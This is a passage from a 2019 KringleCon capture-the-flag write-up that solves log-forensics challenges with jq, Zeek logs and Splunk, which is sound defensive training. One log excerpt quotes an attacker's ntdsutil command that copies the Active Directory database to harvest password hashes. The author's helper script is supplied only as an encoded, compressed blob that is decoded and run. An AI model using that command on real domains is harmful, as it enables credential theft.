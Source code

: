 = 2019 Kringlecon ctf writeup
Brandon Ingalls <brandon@tr4.dev>
v0.1.0, 2019-12-28
:toc:
:imagesdir: ./images

== Challenges

=== __ - Start of Kringlecon

Location: `Train Station`

Difficulty: `0/5`

image::99/00-Hello.png[My character next to santa]

* After signing in for the first time you find yourself at the `Train Station`
* Talk to `Santa`
* Get story
+
----
(Santa)
- Welcome to the North Pole and KringleCon 2!
- Last year, KringleCon hosted over 17,500 attendees and my castle got a little crowded.
- We moved the event to Elf University (Elf U for short), the North Pole’s largest venue.
- Please feel free to explore, watch talks, and enjoy the con!
----

=== 00 - Talk to Santa in the Quad

Location: `The Quad`

Difficulty: `0/5`

image::main/00/00-location.png[Me next to Santa]

.Objective
----
Enter the campus quad and talk to Santa.
----

==== Solution

. Click on `Santa` until they repeat

==== Chat

.Chat log
----
(Santa)
- This is a little embarrassing, but I need your help.
- Our KringleCon turtle dove mascots are missing!
- They probably just wandered off.
- Can you please help find them?
- To help you search for them and get acquainted with KringleCon, I’ve created some objectives for you. You can see them in your badge.
- Where's your badge? Oh! It's that big, circle emblem on your chest - give it a tap!
- We made them in two flavors - one for our new guests, and one for those who've attended both KringleCons.
- After you find the Turtle Doves and complete objectives 2-5, please come back and let me know.
- Not sure where to start? Try hopping around campus and talking to some elves.
- If you help my elves with some quicker problems, they'll probably remember clues for the objectives.
----

=== 01 - Find the Turtle Doves

Location: `Student Union`

Difficulty: `0/5`

image::main/01/00-location.png[Me next to the doves]

.Objective
----
Find the missing turtle doves.
----

==== Solution

. Click on the doves until they repeat

==== Chat

.Chat log
----
(Michael and Jane - Two Turtle Doves)
- Hoot Hooot?
----

=== 02 - Unredact Threatening Document

Location: `The Quad`

Difficulty: `1/5`

image::main/02/00-location.png[Me next to the redacted document]

.Objective
----
Someone sent a threatening letter to Elf University. What is the first word in ALL CAPS in the subject line of the letter? Please find the letter in the Quad.
----

==== Links

. https://mega.nz/#!N9gBVaSZ!FtcN0Sf22Nf7ma0OSWI0OOzs6xoH0UAE5CAcelpNQuU[LetterToElfUPersonnel.pdf]
** The redacted document
+
NOTE: SHA256 `2f7b3ba81f1718d29ee73e82b19eb0f7a85e5b7835aaac0155edd233619b3c5e`

==== Solution

. Open the PDF
+
image::main/02/01-document.png[Picture of redacted document]
+
. Select all text in the document
+
NOTE: Using `[Ctrl]` + `a`
+
image::main/02/02-selected.png[Picture of highlighted document]
+
. Copy the text
+
NOTE: Using `[Ctrl]` + `c`
+
. Paste the copied content into a text editor
+
NOTE: Using `[Ctrl]` + `v`
+
.Documents unredacted contents
----
Date: February 28, 2019

To the Administration, Faculty, and Staff of Elf University
17 Christmas Tree Lane
North Pole

From: A Concerned and Aggrieved Character

Subject: DEMAND: Spread Holiday Cheer to Other Holidays and Mythical Characters… OR
ELSE!


Attention All Elf University Personnel,

It remains a constant source of frustration that Elf University and the entire operation at the
North Pole focuses exclusively on Mr. S. Claus and his year-end holiday spree. We URGE
you to consider lending your considerable resources and expertise in providing merriment,
cheer, toys, candy, and much more to other holidays year-round, as well as to other mythical
characters.

For centuries, we have expressed our frustration at your lack of willingness to spread your
cheer beyond the inaptly-called “Holiday Season.” There are many other perfectly fine
holidays and mythical characters that need your direct support year-round.

If you do not accede to our demands, we will be forced to take matters into our own hands.
We do not make this threat lightly. You have less than six months to act demonstrably.

Sincerely,

--A Concerned and Aggrieved Character

Confidential
Confidential
----

NOTE: *Answer:* `DEMAND`

=== 03 - Windows Log Analysis: Evaluate Attack Outcome

Location: `Offline`

Difficulty: `1/5`

.Objective
----
We're seeing attacks against the Elf U domain! Using the event log data, identify the user account that the attacker compromised using a password spray attack. Bushy Evergreen is hanging out in the train station and may be able to help you out.
----

==== Links

. https://mega.nz/#!choxHC7K!C1r5Yp4ikeA_OnYswhEKuwLEqWgYxoLCAUTh-oMiiso[Security.evtx.zip]
** Archive containing a Windows event log export for `Security`
+
NOTE: SHA256 `7583da028561af31a25a9cecab2c0bb77967a646e4808773b0cc23e62b70c0dd`

==== Solution

. Setup working directory for this challenge
+
[source, bash, options="nowrap"]
----
# Create a temp directory
[~]$ cd "$(mktemp -d /tmp/ctf-03.XXX)"

# Extract the provided archive
[/tmp/ctf-03.rhb]$ unzip /path/to/Security.evtx.zip
Archive:  /path/to/Security.evtx.zip
  inflating: Security.evtx

# Create a python2 virtualenv
[/tmp/ctf-03.rhb]$ python2 -m virtualenv .venv

# Verify layout
[/tmp/ctf-03.rhb]$ ls -A1
Security.evtx
.venv
----
+
. Activate the python virtualenv
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-03.rhb]$ source .venv/bin/activate
(.venv) [/tmp/ctf-03.rhb]$
----
+
. Install python tools
+
----
# Install tools via pip
(.venv) [/tmp/ctf-03.rhb]$ pip install \
                                       'python-evtx>=0.6.1' \
                                       'yq>=2.10.0'
----
+
. Convert `.evtx` to `.xml`
+
[source, bash, options="nowrap"]
----
# Convert evtx => xml
(.venv) [/tmp/ctf-03.rhb]$ time evtx_dump.py Security.evtx > Security.xml
evtx_dump.py Security.evtx > Security.xml  39.01s user 0.07s system 99% cpu 39.084 total

# Check sizes
(.venv) [/tmp/ctf-03.rhb]$ ls -Alh Security.evtx Security.xml
-rwxr-xr-x 1 t4r t4r 3.1M Nov 19 06:29 Security.evtx
-rw-r--r-- 1 t4r t4r 6.9M Dec 28 14:40 Security.xml
----
+
. Convert `.xml` to `.json`
+
[source, bash, options="nowrap"]
----
(.venv) [/tmp/ctf-03.rhb]$ time xq '.Events' Security.xml > Security.json
xq '.Events' Security.xml > Security.json  10.74s user 2.95s system 121% cpu 11.282 total
----
+
. Disable virtualenv
+
NOTE: We shouldn't need it anymore
+
[source, bash, options="nowrap"]
----
(.venv) [/tmp/ctf-03.rhb]$ deactivate
[/tmp/ctf-03.rhb]$
----
+
. Start pivoting with `jq`
.. Figure out when the attack started - Event ID 4625
+
[source, bash, options="nowrap"]
----
# Filter for failed logins
[/tmp/ctf-03.rhb]$ cat Security.json \
                     | jq '.Event[] | select(.System.EventID."#text"=="4625")' > Security-4625.json

# Store jq filter
[/tmp/ctf-03.rhb]$ read -r -d '' filter << 'EOF'
[
  {
    "time": .System.TimeCreated."@SystemTime",
    "user": .EventData.Data[] | select(."@Name"=="TargetUserName")."#text",
    "ip": .EventData.Data[] | select(."@Name"=="IpAddress")."#text"
  }
]
  | sort_by(.time)
    | .[]
EOF

# Parse into readable format
[/tmp/ctf-03.rhb]$ cat Security-4625.json \
                     | jq -c "${filter}" > failed_logins.jsonl
----
+
... Review `failed_logins.jsonl`
+
NOTE: Scan happened `2019-11-19 12:21` => `2019-11-19 12:22`
+
.. Event ID 4624 (An account was successfully logged on)
+
[source, bash, options="nowrap"]
----
# Filter for successful logins
[/tmp/ctf-03.rhb]$ cat Security.json \
                     | jq '.Event[] | select(.System.EventID."#text"=="4624")' > Security-4624.json
----
+
.Example 4624 event
image::main/03/00-4624.png[Example 4624 event]
+
.. Parse filtered `4624` events into a more readable format
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-03.rhb]$ read -r -d '' filter << 'EOF'
[
  {
    "time": .System.TimeCreated."@SystemTime",
    "user": .EventData.Data[] | select(."@Name"=="TargetUserName")."#text",
    "ip": .EventData.Data[] | select(."@Name"=="IpAddress")."#text"
  }
]
  | sort_by(.time)
    | .[]
EOF

[/tmp/ctf-03.rhb]$ cat Security-4624.json \
                     | jq -c "${filter}" \
                       | tee logins.jsonl
{"time":"2019-08-24 00:00:20.189180","user":"pminstix","ip":"192.168.86.128"}
{"time":"2019-08-24 00:00:41.380116","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:21:34.496546","user":"pminstix","ip":"192.168.86.128"}
{"time":"2019-11-19 12:21:41.375494","user":"DC1$","ip":"::1"}
{"time":"2019-11-19 12:21:45.755442","user":"supatree","ip":"127.0.0.1"}
{"time":"2019-11-19 12:21:46.715054","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:21:46.724463","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:22:25.172413","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:22:25.175280","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:22:25.180609","user":"DC1$","ip":"::1"}
{"time":"2019-11-19 12:22:25.184385","user":"DC1$","ip":"192.168.86.190"}
{"time":"2019-11-19 12:22:25.284060","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:22:41.383135","user":"DC1$","ip":"::1"}
{"time":"2019-11-19 12:23:05.847099","user":"supatree","ip":"192.168.86.128"}
{"time":"2019-11-19 12:23:41.405107","user":"DC1$","ip":"::1"}
{"time":"2019-11-19 12:23:47.222954","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
----
+
.. Filter out `Kerberos` events
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-03.rhb]$ cat logins.jsonl | grep -vE 'DC1\$'
{"time":"2019-08-24 00:00:20.189180","user":"pminstix","ip":"192.168.86.128"}
{"time":"2019-11-19 12:21:34.496546","user":"pminstix","ip":"192.168.86.128"}
{"time":"2019-11-19 12:21:45.755442","user":"supatree","ip":"127.0.0.1"}
{"time":"2019-11-19 12:23:05.847099","user":"supatree","ip":"192.168.86.128"}
----
... Note the odd one out
+
----
{"time":"2019-11-19 12:21:45.755442","user":"supatree","ip":"127.0.0.1"}
----

NOTE: *Answer:* `supatree`

=== 04 - Windows Log Analysis: Determine Attacker Technique

Location: `Offline`

Difficulty: `2/5`

.Objective
----
Using these normalized Sysmon logs, identify the tool the attacker used to retrieve domain password hashes from the lsass.exe process. For hints on achieving this objective, please visit Hermey Hall and talk with SugarPlum Mary.
----

==== Links

* https://mega.nz/#!VwojHSaS!u7mcytO5T4rfpxLhMowJ3-fY4ROsDB4Tst-J6XbYoys[sysmon-data.json.zip]
** Archive containing Sysmon data formatted as json
+
NOTE: SHA256 `b54e4d573c100eb51328673f057e51b6292e2e071b421e94edf7d1fd02447d06`

==== Solution

. Create working directory
+
[source, bash, options="nowrap"]
----
# Create a temp directory
[~]$ cd "$(mktemp -d /tmp/ctf-04.XXX)"

# Unzip provided archive
[/tmp/ctf-04.9SY]$ unzip /path/to/sysmon-data.json.zip
Archive:  /path/to/sysmon-data.json.zip
  inflating: sysmon-data.json

# Verify size
[/tmp/ctf-04.9SY]$ ls -Alh sysmon-data.json
-rwx------ 1 t4r t4r 1.8M Dec  5 14:41 sysmon-data.json
----
+
. Figure out what type sysmon events we have
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-04.9SY]$ cat sysmon-data.json | jq '[.[].event_type] | unique'
[
  "file",
  "network",
  "process",
  "registry"
]
----
+
NOTE: As the challenge is asking for what tool was run on the host I decided to start with `process` events (event_id: `1`)
+
. Filter out `event_type=process`
+
[source, bash, options="nowrap"]
----
# Filter process events into `sysmon-data-process.jsonl`
[/tmp/ctf-04.9SY]$ cat sysmon-data.json \
                     | jq -c '.[] | select(.event_type=="process")' > sysmon-data-process.jsonl

# Create an abbriged version of the process file
# - This is easier to skim through
[/tmp/ctf-04.9SY]$ cat sysmon-data-process.jsonl \
                     | jq -c '[{"timestamp", "user_name", "process_name", "command_line"}] | sort_by(.timestamp) | .[]' > process_short.jsonl

# Filter out boring commands with grep as you go
[/tmp/ctf-04.9SY]$ cat process_short.jsonl \
                     | grep -vE '(powershell|net|wevtutil|cmd)\.exe'
{"timestamp":132186398470300000,"user_name":"SYSTEM","process_name":"ntdsutil.exe","command_line":"ntdsutil.exe  \"ac i ntds\" ifm \"create full c:\\hive\" q q"}
----

NOTE: *Answer:* `ntdsutil`

[quote, 'https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc753343(v%3Dws.11)[Microsoft]']
Ntdsutil.exe is a command-line tool that provides management facilities for Active Directory Domain Services (AD DS) and Active Directory Lightweight Directory Services (AD LDS). You can use the ntdsutil commands to perform database maintenance of AD DS, manage and control single master operations, and remove metadata left behind by domain controllers that were removed from the network without being properly uninstalled. This tool is intended for use by experienced administrators.

=== 05 - Network Log Analysis: Determine Compromised System

Location: `Offline`

Difficulty: `2/5`

.Objective
----
The attacks don't stop! Can you help identify the IP address of the malware-infected system using these Zeek logs? For hints on achieving this objective, please visit the Laboratory and talk with Sparkle Redberry.
----

==== Links

* https://mega.nz/#!x0gVCSob!e6YHqJcdXYKVzdJDZOte2hpGZGN5uapE2UpBmFSGUQk[elfu-zeeklogs.zip]
** Archive of Zeek logs
+
NOTE: SHA256: `8b2d0d64c310d63efe9fc57e6945f9f8d4498501b39039cd161ee5a9485258af`

==== Solution

. Create working directory
+
[source, bash, options="nowrap"]
----
# Create a temp directory
[~]$ cd "$(mktemp -d /tmp/ctf-05.XXX)"

# Unzip provided archive
[/tmp/ctf-05.bl9]$ unzip /path/to/elfu-zeeklogs.zip
Archive:  /path/to/elfu-zeeklogs.zip
...
  inflating: elfu-zeeklogs/conn.log-00057_20190824000518.log
----
+
. Create tool to parse the `Zeek` logs into `jsonl`
+
NOTE: I made a quick python script to do this
+
NOTE: This will make it easier to use `jq` to filter the data
+
.Custom script
[source, bash, options="nowrap"]
----
# Extract log converter
[/tmp/ctf-05.bl9]$ base64 -d << 'EOF' | gzip --decompress > convert-log.py
H4sICHP2B14CA2NvbnZlcnQtbG9nLnB5AH1VPVPjMBDt/SuEUsSeAQNXZibFFRTXcBRU58t4RLxJ
dNiSR5JDgOG/366k+CMBXGRs6e3b75fZBbvurLl+kuoa1J61r26n1Y8kkU2rjWPCbFthLBy//1mt
ju/aJklSwYZ5RIlQm2aLhOHjTwxb9vb5T7PtGlDuwd+k2QiWi6oia3+f8lpv+SXbQd0u+YNwO+Y0
+wPwzOgi2JGr0ogXdBApxiF4iAHXGcX2eJ4e4dkkXqQrN7KGFF9i2A04gZzvH/7LAgKF05THvVbg
DzcS6sqOTyrhROleWzge+tNaKoghIn9uQFR0FKOjV7qJoNw6I9t4N2P3vx/vFuxxB+jNWBfQdqe7
umI7sQfm8Gov6g5YZ6FiwjIxRBtJwrPB6AltAHn0xr9jPB4jN4zPejPOlHZMKu8tlMPXUUgL7O6w
htZJrdL+gh4+fyf0x5y9YAxkT/xD3UKMvxgcWlg7qC54jgE1wqVktqSfrCfMpkUvbVtLF4uU+4+U
M36KArsWLdZgeWpZXN2uztp4ZpdXsNYVpLxTkl6uwnl0Q/NQ8KFEq88oQr+p0H3PqYp6OxTxq3b3
gBnze+HLR05ppph40p2bdCx2jXiKGwxmiQ3ki0lLPqvaX8dHvoI/A42OkzSfzVlrYCMPEwzFUT7D
a5ziUNSb1acYvB/Di9vFKjkDFkfIqqcj3Bi21spJ1UEyTpfmKqzdNNV+FYk33wJmGo5QPopVdkrR
7+mUZby+A1GLwhNoKOXkm+r28zA49N1DGTmg7YIdituVH48DzcUbNj5EeRnYso+JXcHfUOt8QH7c
+vCGIFojUSdJifOqa1qbEiYby17UuUZI5cUvyhspHiUWdNmGTAdVjXXSNidQLu1RHb1R9rUmoAwQ
AmWg0hB0AA7SumHd6XrZM8VhfJEYim5B9T4uGTdPPCNBm+zPuWAT2UnGGH5ZKtFAWfrNKEvKvyzj
glDGx/+L8R9FX6Slr1TyH0d4njISBwAA
EOF
----
+
. Start pivoting with Zeek conn events
+
[source, bash, options="nowrap"]
----
# Create `zeek.jsonl`
[/tmp/ctf-05.bl9]$ find ./elfu-zeeklogs/ \
                          -iname 'conn*.log' \
                          -type f \
                          -exec python ./convert-log.py {} ';' > zeek-conn.jsonl

# Check sizes
[/tmp/ctf-05.bl9]$ ls -lh zeek-conn.jsonl
-rw-r--r-- 1 t4r t4r 770M Dec 28 18:57 zeek-conn.jsonl

# Look for long-lived connections
[/tmp/ctf-05.bl9]$ cat zeek-conn.jsonl \
                     | jq -s -c '[.[] | select(.duration!="-")] | . | sort_by(.duration|tonumber) | reverse | .[]' \
                       | head \
                         | tee top-conn.txt

# Make it eaiser to read
[/tmp/ctf-05.bl9]$ cat top-conn.txt \
                     | jq -c '{"proto", "id.orig_h", "id.resp_h", "id.resp_p", "uid"}'
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"255.255.255.255","id.resp_p":"17500","uid":"CFp61A2tCWNnVBMvZ8"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"10.142.151.255","id.resp_p":"17500","uid":"CPEjh03sHL2fw2KVr9"}
{"proto":"tcp","id.orig_h":"192.168.134.130","id.resp_h":"148.69.64[.]76","id.resp_p":"443","uid":"C9mIoHHpnSvcvBUme"}
{"proto":"tcp","id.orig_h":"192.168.134.130","id.resp_h":"148.69.64[.]76","id.resp_p":"443","uid":"Cpsfbu2RiDZx0c8kn7"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"255.255.255.255","id.resp_p":"17500","uid":"CHgaNmEHxh4EU0oQj"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"10.142.151.255","id.resp_p":"17500","uid":"C0SkC82J7wY3N1WG5l"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"255.255.255.255","id.resp_p":"17500","uid":"Cz6Yt11qPAC75MXHt4"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"10.142.151.255","id.resp_p":"17500","uid":"CbtldJSgT161hzY53"}
{"proto":"tcp","id.orig_h":"192.168.134.130","id.resp_h":"148.69.64[.]76","id.resp_p":"443","uid":"C0ZpeF4800AaS7daZe"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"255.255.255.255","id.resp_p":"17500","uid":"CW9Hxc1ETzjzpoCT8c"}
----
+
NOTE: `192.168.134.130` => `148.69.64[.]76:443/tcp` seems pretty *sketch*.

NOTE: *Answer:* `192.168.134.130`

==== Chat

.Chat log
----
(Santa)
- Thank you for finding Jane and Michael, our two turtle doves!
- I’ve got an uneasy feeling about how they disappeared.
- Turtle doves wouldn’t wander off like that.
- Someone must have stolen them! Please help us find the thief!
- It’s a moral imperative!
- I think you should look for an entrance to the steam tunnels and solve Challenge 6 and 7 too!
- Gosh, I can’t help but think:
- Winds in the East, snow coming in…
- Like something is brewing and about to begin!
- Can’t put my finger on what lies in store,
- But I fear what’s to happen all happened before!
----

=== 06 - Splunk

Location: `https://splunk.elfu.org/`

Difficulty: `3/5`

image::main/06/00-location.png[Challenge screen]

.Objective
----
Access https://splunk.elfu.org/ as elf with password elfsocks. What was the message for Kent that the adversary embedded in this attack? The SOC folks at that link will help you along! For hints on achieving this objective, please visit the Laboratory in Hermey Hall and talk with Prof. Banas.
----

==== Solution

===== Part A

We need to complete the Training questions to get important bits of information before we can complete the challenge question.

. What is the short host name of Professor Banas' computer?
** We can find this inside of the `SOC chat`
+
image::main/06/01-hostname.png[Picture showing hostname of sweetums]
+
NOTE: *Answer:* `sweetums`
+
. What is the name of the sensitive file that was likely accessed and copied by the attacker? Please provide the fully qualified location of the file. (Example: C:\temp\report.pdf)
** After solving question one, the chat app updates with more information
+
image::main/06/02-hint.png[Hint that gives you a starting search]
+
** The link takes you to the following Splunk search
+
----
index=main cbanas
----
+
** As the question was asking for information on information accessed by the attacker I used a basic search...
+
----
    index=main
AND cbanas
AND Users
----
+
image::main/06/03-answer.png[Answer for q02]
+
NOTE: *Answer:* `C:\Users\cbanas\Documents\Naughty_and_Nice_2019_draft.txt`
+
. What is the fully-qualified domain name(FQDN) of the command and control(C2) server? (Example: badguy.baddies[.]com)
** It looked like Empire was being used on the Windows host
** I did a search for Sysmon Event ID *3* made by `powershell.exe`
+
----
    index=main
AND EventID=3
AND Computer="sweetums*"
AND process_name="powershell.exe"
----
+
image::main/06/04-search.png[Search results]
+
NOTE: *Answer:* `144.202.46[.]214.vultr[.]com`
+
. What document is involved with launching the malicious PowerShell code? Please provide just the filename. (Example: results.txt)
** Did a basic search for Sysmon event id `1`
+
----
    index=main
AND EventID=1
AND Computer="sweetums*"
----
+
image::main/06/05-table.png[Search results]
+
** I see see Powershell running an Empire payload at `05:18 PM`
** https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Decode_text('UTF-16LE%20(1200)')Generic_Code_Beautify()[CyberChef Recipe]
+
image::main/06/06-payload.png[Empire payload decoded]
+
NOTE: The parent process of the malicious `powershell.exe` is `WmiPrvSE.exe`, so it was started via a script, going to guess it was from an office product macro.
+
** Struck out with this search
+
----
    index=main
AND EventCode=1
AND NOT docx
----
+
image::main/06/07-no-results.png[No bad results]
+
** Noticed this message in chat
+
image::main/06/08-chat.png[Chat message]
+
** Tried new search (Limited to around the time Empire payload was executed)
+
----
    index=main
AND EventCode=4688
AND NOT docx

| sort _time
----
+
image::main/06/09-found-bad.png[Table with bad doc]
+
NOTE: *Answer:* `19th Century Holiday Cheer Assignment.docm`
+
. How many unique email addresses were used to send Holiday Cheer essays to Professor Banas? Please provide the numeric value. (Example: 1)
** Read the chat
+
image::main/06/10-chat.png[Chat message]
+
** Need to look for emails with the subject of *Holiday Cheer Assignment Submission*
+
.Query
----
    index=main
AND sourcetype=stoq
AND results{}.workers.smtp.subject="Holiday Cheer Assignment Submission"

| eval email_from = mvindex(lower('results{}.workers.smtp.from'), 0)
  | stats dc(email_from)
----
+
NOTE: *Answer:* `21`
+
. What was the password for the zip archive that contained the suspicious file?
** Starting with this search
+
----
    index=main
AND sourcetype=stoq
AND results{}.workers.smtp.subject="Holiday Cheer Assignment Submission"
AND docm
----
+
image::main/06/11-results.png[Search results]
+
NOTE: *Answer:* `123456789`
+
. What email address did the suspicious file come from?
** Using my table from the previous question I was able to pull the email address for this question
+
NOTE: *Answer:* `bradly.buttercups@eifu[.]org`

==== Part B

NOTE: This is the official challenge solution, we needed the information from the training questions to get the data for this question.

. Find artifact meta information
+
image::main/06/12-artifacts.png[Email artifacts]
+
. Convert artifact links to download urls
+
NOTE: We are provided with a http://elfu-soc.s3-website-us-east-1.amazonaws.com/[link] to the SOCs case artifacts
+
[source, bash, options="nowrap"]
----
# Create work dir
[~]$ cd "$(mktemp -d /tmp/ctf-06.XXX)"

# Convert to bucket urls
[/tmp/ctf-06.I4z]$ sed -re 's,^,http://elfu-soc.s3-website-us-east-1.amazonaws.com/stoQ%20Artifacts,' << 'EOF' | tee urls.txt
/home/ubuntu/archive/7/f/6/3/a/7f63ace9873ce7326199e464adfdaad76a4c4e16
/home/ubuntu/archive/9/b/b/3/d/9bb3d1b233ee039315fd36527e0b565e7d4b778f
/home/ubuntu/archive/c/6/e/1/7/c6e175f5b8048c771b3a3fac5f3295d2032524af
/home/ubuntu/archive/b/e/7/b/9/be7b9b92a7acd38d39e86f56e89ef189f9d8ac2d
/home/ubuntu/archive/1/e/a/4/4/1ea44e753bd217e0edae781e8b5b5c39577c582f
/home/ubuntu/archive/e/e/b/4/0/eeb40799bae524d10d8df2d65e5174980c7a9a91
/home/ubuntu/archive/1/8/f/3/3/18f3376a0ce18b348c6d0a4ba9ec35cde2cab300
/home/ubuntu/archive/f/2/a/8/0/f2a801de2e254e15840460f4a53e568f6622c48b
/home/ubuntu/archive/1/0/7/4/0/1074061aa9d9649d294494bb0ae40217b9c7a2d9
/home/ubuntu/archive/8/6/c/4/d/86c4d8a2f37c6b4709273561700640a6566491b1
/home/ubuntu/archive/a/2/b/b/1/a2bb14afe8161ee9bd4a6ea10ef5a9281e42cd09
/home/ubuntu/archive/4/0/d/c/1/40dc1e00e2663cb33f8c296cdb0cd52fa07a87b6
/home/ubuntu/archive/f/5/c/b/a/f5cba8a650d6ada98d170f1b22098d93b8ff8879
/home/ubuntu/archive/0/2/b/6/7/02b67cad55d2684115a7de04d0458a3af46b12c6
/home/ubuntu/archive/1/7/6/1/2/1761214092f5c0e375ab3bc58a8687134b7f2582
/home/ubuntu/archive/b/7/7/0/f/b770f3a79423882bdae4240e995c0885770022ef
/home/ubuntu/archive/9/d/7/a/b/9d7abf0ee4effcecad80c8bbfb276079a05b4342
/home/ubuntu/archive/e/9/2/1/1/e9211c706be234c20d3c02123d85fea50ae638fd
/home/ubuntu/archive/f/f/1/e/a/ff1ea6f13be3faabd0da728f514deb7fe3577cc4
/home/ubuntu/archive/7/f/6/3/a/7f63ace9873ce7326199e464adfdaad76a4c4e16
/home/ubuntu/archive/9/b/b/3/d/9bb3d1b233ee039315fd36527e0b565e7d4b778f
